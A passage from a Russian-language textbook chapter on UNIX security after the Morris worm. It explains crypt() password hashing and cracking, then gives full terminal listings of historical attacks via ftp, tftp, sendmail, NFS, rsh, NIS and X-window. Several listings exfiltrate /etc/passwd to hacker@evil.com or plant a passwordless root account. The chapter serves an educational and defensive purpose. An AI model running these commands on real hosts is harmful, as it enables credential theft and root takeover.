



|
8.5. После червя
8.5.1. Подбор пароля
Вирус Морриса заставил по-новому взглянуть на
вопросы компьютерной безопасности со всех точек
зрения. Были предприняты шаги не только по
закрытию тех брешей, которые он использовал, но и
по поиску и классификации причин их появления в
UNIX-системах. Также была выявлена необходимость
создания некоторого координационного органа, в
котором бы накапливалась и систематизировалась
информация о различных компьютерных инцидентах,
применяемых методах атак и способах защиты от
них. Вскоре такой центр CERT (Computer Emergency Response Team) был
создан, и первым появившимся в декабре 1988 года
бюллетенем было сообщение об уязвимостях,
использованных червем.
Однако и компьютерные взломщики
совершенствовали свои методы. Одной из атак,
ставшей наиболее популярной, была атака с
подбором пароля другого пользователя. Ей активно
пользовался и вирус Морриса, но, либо развив его
идеи, либо развиваясь независимо, вскоре
появилось множество программ, занимавшихся
подбором пароля к UNIX-машине. И долгое время слова
"взломать UNIX" означали запустить взломщик (cracker)
паролей.
Как известно, в файле /etc/passwd лежит ключевая
информация о всех пользователях системы, включая
его входное имя, пароль, полное имя и т. п. Даже в
70-х годах, когда создавались первые версии UNIX, его
разработчикам было понятно, что пароль
пользователя нельзя хранить в открытом виде.
Надо отдать им должное, они сумели придумать
схему, благодаря которой целенаправленные атаки
на то, к чему всегда стремится не очень
добропорядочный пользователь, а именно -
завладеть паролем другого, смогли реализоваться
только спустя 15 лет. Они не пошли по простому пути
шифрования пароля по какому-то секретному
алгоритму, т. к. рано или поздно этот алгоритм
стал бы известен очередному не в меру
любопытному, но в меру грамотному программисту и
он смог бы расшифровать все пароли. Они выбрали
путь необратимого преобразования пароля, когда
из исходного пароля путем применения к ней
специальной однонаправленной функции
(называемой функцией хэширования) получалось
некое значение, из которого никак нельзя
получить исходный пароль. Более того,
разработчики взяли математически криптостойкий
алгоритм DES и на основе его создали функцию crypt(),
преобразующую пароль в строку, расположенную в
файле /etc/passwd. Эту функцию написал, кстати, Роберт
Моррис-старший.
Итак, рассмотрим немного подробнее алгоритм,
применяемый UNIX для преобразования пароля
пользователя. Кстати, этот алгоритм применяется
до сих пор в большинстве *IX.
Из исходного пароля берутся первые восемь байт.
Также выбирается некоторое 12-битное случайное
число (salt), используемое для операции
хэширования. Его необходимость следует из того,
чтобы одинаковые пароли (возможно, у разных
людей) не выглядели одинаково после хэширования.
Затем к этим двум параметрам применяется
специальная функция шифрования, дающая на выходе
64-битное значение. Наконец, сам salt
преобразуется в два читабельных ASCII-символа, а
хэш - в 11 символов. Итак, функция crypt (passwd8, salt)
выдает
13-символьную строчку, которая и записывается в
файл /etc/passwd.
При входе пользователя в систему вызывается та
же функция crypt() с введенным паролем и salt,
полученными из /etc/passwd. Если результат функции
оказывается равным тому значению, что хранится в
файле, то аутентификация считается состоявшейся.
После анализа этой схемы, первое, что приходит в
голову потенциальному взломщику - это перебор.
Берется некоторый набор символов (например,
маленькие и большие буквы, цифры и специальные
символы типа знаков препинания - всего
получается 94 символа), а затем из них по очереди
составляются все комбинации вплоть до
8-символьной длины. К каждой из них применяется
crypt(), и результат сравнивается с имеющимся.
Естественно, что в эти комбинации и попадет рано
или поздно любой пароль пользователя.
Обрезание пароля до 8 значимых символов,
конечно, резко ограничивает множество для
перебора, но для тех времен это было вполне
допустимо, т. к. функция crypt() была реализована
заведомо неэффективно, и время одного ее
выполнения доходило до одной секунды на маши-
не класса PDP. Таким образом, в среднем
злоумышленник потратил бы

секунд
или около 100 миллионов лет. Если же в качестве
множества символов взять маленькие латинские
буквы (наиболее часто используемое множество), то
время перебора составит
в среднем  секунд или
всего
3440 лет. Заметим, однако, что на сегодняшний день
скорость оптимизированной функции crypt() на
машине класса Pentium составляет почти 10000 crypt/сек, т.
е. она за 20 лет повысилась в 10000 раз! Поэтому
сегодня пароль из последнего примера мы сможем
найти в среднем за 125 дней!
Более того, во-первых, этот процесс легко можно
распараллелить, а во-вторых, существуют
специальные платы, аппаратно выполняющие
процесс шифрования, с помощью которых можно еще
уменьшить время на несколько порядков.
Однако вернемся на несколько лет назад, когда
вычислительной мощности для полного перебора
всех паролей не хватало. Тем не менее, хакерами
был придуман остроумный (но совершенно
очевидный) метод, основанный на людской
психологии. Он следует из того, что человеку
нелегко запомнить длинные бессмысленные наборы
символов (идеальные в качестве паролей), поэтому
он каким-либо путем попробует выбрать их
более-менее запоминающимися и/или осмысленными.
Чаще всего им в качестве пароля выбирается
существующее слово или какая-либо информация о
себе или своих знакомых (имя, дата рождения и т.
п.). Ну, а поскольку в любом языке не более 100000
слов, то их перебор займет весьма небольшое
время, и от 40 до 80% существующих паролей может
быть угадано с помощью такой простой схемы,
называемой "атакой по словарю" . (Кстати, до
80% этих паролей может быть угадано с
использованием словаря размером всего 1000 слов!).
Как вы уже знаете, даже вирус Морриса применял
такой способ, тем более что в UNIX "под рукой"
часто оказывается файл-словарь, обычно
используемый программами-корректорами. Что же
касается "собственных" паролей, то файл
/etc/passwd опять-таки может дать немало информации о
пользователе: его входное имя, имя и фамилию,
домашний каталог. Вирус Морриса, как вы помните, с
успехом пользовался следующими предположениями:
- в качестве пароля берется входное имя
пользователя;
- пароль представляет собой двойной повтор имени
пользователя;
- то же, но прочитанное справа налево;
- имя или фамилия пользователя;
- то же, но в нижнем регистре.
Забегая несколько вперед, остановимся на
сегодняшней ситуации со вскрытием паролей.
Во-первых, сегодня трудно предположить, что
существует еще какой-нибудь ускользнувший от
внимания хакеров способ, позволяющий удаленно
выкрасть файл /etc/passwd для последующего анализа
(его, безусловно, можно получить, используя
сценарий 1 или 2 через изъян в демоне - но это
бессмысленно, т. к. злоумышленник в этом случае и
так стал суперпользователем на вашей машине).
Во-вторых, в современных версиях UNIX появился
механизм так называемого "затенения" (shadowing)
файла паролей - он перемещается в другое место и
становится недоступным обычным пользователям по
чтению. Но это не сильно эффективное средство,
что связано опять-таки с идеологией UNIX, и вызов
функции getpwent() иногда позволяет получить
пароли пользователей в классическом виде.
В-третьих, иногда функция crypt() заменяется на
другую (еще более медленную!) хэш-функцию, и
запуск старых программ-вскрывателей ни к чему не
приводит. Обычно это алгоритм MD5, скорость
которого в 50 раз меньше, чем crypt(). Наконец,
среди пользователей в последние годы проводится
большая "разъяснительная работа" по выбору
стойких паролей, и процент успешно подобранных
паролей с помощью атаки "по словарю" пусть
медленно, но падает.
Однако психологический фактор останется до тех
пор, пока с компьютером работает человек, и,
наверное, никогда эксперты по компьютерной
безопасности не дождутся от пользователя выбора
таких простых и радующих душу паролей, как
34jXs5U@bTa!6. Поэтому даже искушенный пользователь
хитрит и выбирает такие пароли, как hope1, user1997,
pAsSwOrD, toor, roottoor, parol, gfhjkm, asxz. Видно, что все они, как
правило, базируются на осмысленном слове и
некотором простом правиле его преобразования:
прибавить цифру, прибавить год, перевести через
букву в другой регистр, записать слово наоборот,
прибавить записанное наоборот слово, записать
русское слово латинскими буквами, набрать
русское слово на клавиатуре с латинской
раскладкой, составить пароль из рядом
расположенных на клавиатуре клавиш и т. п.
Поэтому не надо удивляться, если такой
"хитрый" пароль будет вскрыт хакерами - они
не глупее вас, и уже вставили в свои программы те
правила, по которым может идти преобразование
слов. В самых продвинутых программах (Crack 4.1, John The
Ripper 1.3) эти правила могут быть программируемыми и
задаваться с помощью специального языка самим
хакером.
Приведем пример эффективности такой стратегии
перебора. Во многих книгах по безопасности
предлагается выбирать в качестве надежного
пароля два осмысленных слова, разделенных
некоторым знаком, например good!password. Подсчитаем,
за сколько времени в среднем будут сломаны такие
пароли, если такое правило включено в набор
программы-взломщика (пусть словарь 10000 слов,
разделительными знаками могут быть 10 цифр и 32
знака препинания и специальных символа, машина
класса Pentium со скоростью 10000 crypt/сек):

сек. или всего 2.5 дня!
Итак, из всего вышесказанного ясно, насколько
важно для вашей безопасности иметь хорошие
пароли, причем это не зависит от операционной
системы, которую вы используете. К сожалению,
рекомендации по поводу выбора таких паролей
выходят за рамки этой книги.
8.5.2. Типичные атаки
Далее мы рассмотрим типичные атаки на UNIX-хосты,
которые осуществлялись в недалеком прошлом, и
попытаемся классифицировать их по предложенным
типовым сценариям. Почти все атаки даются с
подробными листингами, т. к. потенциальный кракер
все равно найдет их в том же интернете [16], а
главное, что на сегодняшний день они являются
достаточно устаревшими и представляют больше
теоретический интерес.
8.5.2.1. Атака с использованием анонимного ftp
Анонимный ftp-сервис (обнаружить его наличие
чрезвычайно легко, и это не должно возбуждать
никаких подозрений) может служить легким
способом получения доступа, поскольку его часто
неправильно конфигурируют. Например, система
может иметь полную копию файла /etc/passwd в каталоге
~ftp/etc вместо урезанной версии - со всеми
вытекающими отсюда последствиями (см. предыдущий
пункт). Кроме того, можно применить и более
изощренный способ - в следующем примере домашний
каталог специального пользователя ftp на
victim.com доступен для записи. Это позволяет послать
по почте самому себе файл /etc/passwd атакуемой
машины. Для этого надо создать файл .forward в
домашнем каталоге ftp, который выполняется,
когда пользователю ftp посылается почта.
Происходит это следующим образом:
evil % cat forward_sucker_file
"|/bin/mail hacker@evil.com < /etc/passwd"
evil % ftp victim.com
Connected to victim.com
220 victim FTP server ready.
Name (victim.com:hacker): ftp
331 Guest login ok, send ident as password.
Password: *****
230 Guest login ok, access restrictions apply.
ftp> ls -lga
200 PORT command successful.
150 ASCII data connection for /bin/ls (192.192.192.1,1129) (0 bytes).
total 5
drwxr-xr-x 4 101 1 512 Jun 20 1991 .
drwxr-xr-x 4 101 1 512 Jun 20 1991 ..
drwxr-xr-x 2 0 1 512 Jun 20 1991 bin
drwxr-xr-x 2 0 1 512 Jun 20 1991 etc
drwxr-xr-x 3 101 1 512 Aug 22 1991 pub
226 ASCII Transfer complete.
242 bytes received in 0.066 seconds (3.6 Kbytes/s)
ftp> put forward_sucker_file .forward
43 bytes sent in 0.0015 seconds (28 Kbytes/s)
ftp> quit
evil % echo test | mail ftp@victim.com
Теперь можно просто сидеть и ждать, когда файл с
паролями будет послан обратно.
Очевидно, что такая атака (как и следующая)
является типичной по сценарию 2.
Рассматривая ftp, можно проверить более старую
ошибку:
% ftp -n
ftp> open victim.com
Connected to victim.com
220 victim.com FTP server ready.
ftp> quote user ftp
331 Guest login ok, send ident as password.
ftp> quote cwd ~root
530 Please login with USER and PASS.
ftp> quote pass ftp
230 Guest login ok, access restrictions apply.
ftp> ls -al /
Если этот прием сработал, то атакующий теперь
вошел в систему как системный администратор (root).
Если данная ошибка имеется в системе, то следует
обязательно обновить ftpd.
Далее мы еще рассмотрим более свежие
"дыры" в ftp-демонах.
8.5.2.2. Использование tftp
Существует также программа, подобная ftpd - tftpd.
Этот демон не требует пароля для аутентификации.
Если хост предоставляет tftp без ограничения
доступа (обычно с помощью установок флагов
безопасности в файле inetd.conf), то атакующий
получает доступ по чтению и записи к любым
файлам. Например, он может получить файл паролей
с удаленной машины и разместить его в локальном
каталоге /tmp:
evil % tftp
tftp> connect victim.com
tftp> get /etc/passwd /tmp/passwd.victim
tftp> quit
Это является атакой по сценарию 2.
8.5.2.3. Проникновение в систему с помощью
sendmail
Sendmail - это очень сложная программа, у которой
всегда было много проблем с безопасностью,
включая печально известную команду "debug" .
С ее помощью, например, зачастую можно получить
некоторую информацию об удаленной системе,
иногда вплоть до номера версии, анализируя ее
сообщения. Это дает возможность определить
наличие в системе известных ошибок. Кроме того,
можно увидеть, запущен ли псевдоним "decode" ,
имеющий ряд проблем:
evil % telnet victim.com 25
connecting to host victim.com (128.128.128.1.), port 25 connection open
220 victim.com Sendmail Sendmail 5.55/victim ready at Fri, 6 Nov 93 18:00 PDT
expn decode
250 <"|/usr/bin/uudecode">
quit
Наличие псевдонима decode подвергает систему
риску, что злоумышленник может изменить любые
файлы, доступные для записи владельцу этого
псевдонима, которым, как правило, является демон.
Этот фрагмент кода поместит evil.com в файл .rhosts
пользователя hacker, если он доступен для
записи:
evil % echo "evil.com" | uuencode /home/hacker/.rhosts | mail
decode@victim.com
В части sendmail, отвечающей за пересылку, были две
хорошо известные ошибки. Первая была устранена в
версии 5.59 Berkeley. Для версий sendmail до 5.59 в
приведенном примере, несмотря на сообщения об
ошибках, "evil.com" добавляется к файлу .rhosts
вместе с обычными почтовыми заголовками:
% cat evil_sendmail
telnet victim.com 25 << EOSM
rcpt to: /home/hacker/.rhosts
mail from: hacker
data
.
rcpt to: /home/hacker/.rhosts
mail from: hacker
data
evil.com
.
quit
EOSM
evil % /bin/sh evil_sendmail
Trying 128.128.128.1
Connected to victim.com
Escape character is '^]'.
Connection closed by foreign host.
evil % rlogin victim.com -l hacker
Welcome to victim.com!
victim %
Вторая ошибка, исправленная недавно, позволяла
кому угодно задавать произвольные команды
оболочки и/или пути для посылающей и/или
принимающей стороны. Попытки сохранить детали в
секрете были тщетными, и широкая дискуссия в
эхо-конференциях привела к обнародованию того,
как можно использовать некоторые ошибки. Как и
для большинства других ошибок UNIX, почти все
системы оказались уязвимы для этих атак,
поскольку все они имели в основе один и тот же
исходный текст. Типичная атака с помощью sendmail,
направленная на получение пароля, может
выглядеть так:
evil % telnet victim.com 25
Trying 128.128.128.1
Connected to victim.com
Escape character is '^]'.
220 victim.com Sendmail 5.55 ready at Saturday, 6 Nov 93 18:04
mail from: "|/bin/mail hacker@evil.com < /etc/passwd"
250 "|/bin/mail hacker@evil.com < /etc/passwd"... Sender ok
rcpt to: nosuchuser
550 nosuchuser... User unknown
data
354 Enter mail, end with "." on a line by itself
.
250 Mail accepted
quit
Connection closed by foreign host.
evil %
Видно, что все атаки на sendmail идут на уровне
незарегистрированного удаленного пользователя,
и поэтому относятся к сценарию 1. Ну, а к sendmail мы
еще вернемся.
8.5.2.4. Атаки на доверие
Ниже перечисляемые атаки основаны на типовом
сценарии 4.
8.5.2.4.1. С использованием неправильного
администрирования NFS
Предположим, что запуск программы showmount с
параметром "атакуемый хост" покажет
следующее:
evil % showmount -e victim.com
export list for victim.com:
/export (everyone)
/var (everyone)
/usr easy
/export/exec/kvm/sun4c.sunos.4.1.3 easy
/export/root/easy easy
/export/swap/easy easy
Сразу бросается в глаза, что /export и все его
подкаталоги экспортируются во внешнюю среду.
Предположим (это можно выяснить с помощью finger),
что домашним каталогом пользователя guest
является /export/foo. Теперь с помощью этой информации
можно осуществить первое вторжение. Для этого
монтируется домашний каталог пользователя guest
удаленной машины. Поскольку даже
суперпользователь атакующей машины не может
модифицировать файлы на файловой системе,
смонтированной как NFS, необходимо обмануть NFS и
создать фиктивного пользователя guest в
локальном файле паролей. Далее стандартно
эксплуатируется "излишнее доверие" , и
атакующая машина victim.com вставляется в файл .rhosts в
удаленном домашнем каталоге guest, что позволит
зарегистрироваться в атакуемой машине, не
предоставляя пароля:
evil # mount victim.com:/export/foo /foo
evil # cd /foo
evil # ls -lag
total 3
1 drwxr-xr-x 11 root daemon 512 Jun 19 09:47 .
1 drwxr-xr-x 7 root wheel 512 Jul 19 1991 ..
1 drwx--x--x 9 10001 daemon 1024 Aug 3 15:49 guest
evil # echo guest:x:10001:1:временно для взлома:/: >>
/etc/passwd
evil # su guest
evil % echo victim.com >> guest/.rhosts
evil % rlogin victim.com
Welcome to victim.com!
victim %
Если бы victim.com не экспортировал домашние
каталоги пользователей, а только
пользовательские каталоги с программами (скажем,
/usr или /usr/local/bin), можно было бы заменить команду
троянским конем, который бы выполнял те же опе-
рации.
8.5.2.4.2. Проникновение в систему с помощью rsh
Если система, которую собираются атаковать,
содержит шаблон "+" в файле /etc/hosts.equiv
(в некоторых системах он устанавливается по
умолчанию) или содержит ошибки в утилите netgroups, то
любой пользователь с помощью rlogin сможет
зарегистрироваться на ней под любым именем,
кроме root, без указания пароля. Поскольку
специальный пользователь "bin" , как
правило, имеет доступ к ключевым файлам и
каталогам, то, зарегистрировавшись как bin,
можно изменить файл паролей так, чтобы получить
привилегии доступа root. Это можно сделать
примерно следующим способом:
evil % whoami
bin
evil % rsh victim.com csh -i
Warning: no access to tty; thus no job control in this shell...
victim % ls -ldg /etc
drwxr-sr-x 8 bin staff 2048 Jul 24 18:02 /etc
victim % cd /etc
victim % mv passwd pw.old
victim % (echo toor::0:1:instant root shell:/:/bin/sh; cat pw.old ) > passwd
victim % ^D
evil % rlogin victim.com -l toor
Welcome to victim.com!
victim #
Несколько замечаний по поводу деталей
приведенного выше метода: "rsh victim.com csh -i"
используется для проникновения в систему, т. к.
при таком запуске csh не оставляет никаких следов
в файлах учета wtmp или utmp, делая rsh невидимым для
finger или who. Правда, при этом удаленный командный
процессор не подключается к псевдотерминалу,
поэтому полноэкранные программы (например,
редакторы) работать не будут. На многих системах
атака с помощью rsh в случае успешного завершения
оставалась совершенно незамеченной, поэтому
можно порекомендовать использовать регистратор
внешних tcp-подключений, который может помочь
обнаружить такую деятельность.
8.5.2.4.3. Использование службы NIS
Активный NIS-сервер управляет почтовыми
псевдонимами (aliases) для доменов NIS. Подобно
рассмотренным вариантам атак с помощью
псевдонимов локальной почты, можно создать
почтовые псевдонимы, которые будут выполнять
команды, когда им приходит почта. Например,
рассмотрим создание псевдонима "foo" ,
который посылает по почте файл паролей на evil.com,
когда на его адрес поступает любое сообщение:
nis-master # echo 'foo: "| mail hacker@evil.com < /etc/passwd "'
>> /etc/aliases
nis-master # cd /var/yp
nis-master # make aliases
nis-master # echo test | mail -v foo@victim.com
Таким образом, становится ясно, что NIS -
ненадежная служба, которая почти не имеет
аутентификации клиентов и серверов, и, если
атакующий управляет активным NIS-сервером, то он
также сможет эффективно управлять хостами
клиентов (например, сможет выполнять
произвольные команды).
8.5.2.4.4. Особенности безопасности X-window
Все сетевые службы, кроме portmapper, могут быть
обнаружены с помощью перебора всех сетевых
портов. Многие сетевые утилиты и оконные систе-
мы работают с конкретными портами (например, sendmail
- с портом 25, telnet - с портом 23). Порт X-window обычно
6000. Без дополнительной защиты окна X-window могут
быть захвачены или просмотрены, ввод
пользователя может быть украден, программы могут
быть удаленно выполнены и т. п. Одним из методов
определения уязвимости X сервера является
подсоединение к нему через функцию XOpenDisplay().
Если функция возвращает не NULL, то можно получить
доступ к дисплею.
Х-терминалы, гораздо менее мощные системы,
могут иметь свои проблемы по части безопасности.
Многие Х-терминалы разрешают неограниченный
rsh-доступ, позволяя запустить Х-клиенты на
терминале victim, перенаправляя вывод на локальный
терминал:
evil% xhost +xvictim.victim.com
evil% rsh xvictim.victim.com telnet victim.com -display evil.com
В любом случае необходимо продумать
безопасность вашей системы X-Window, поскольку иначе
система будет подвергаться такому же риску, как и
при наличии "+" в hosts.eguiv или отсутствии
пароля у root.
|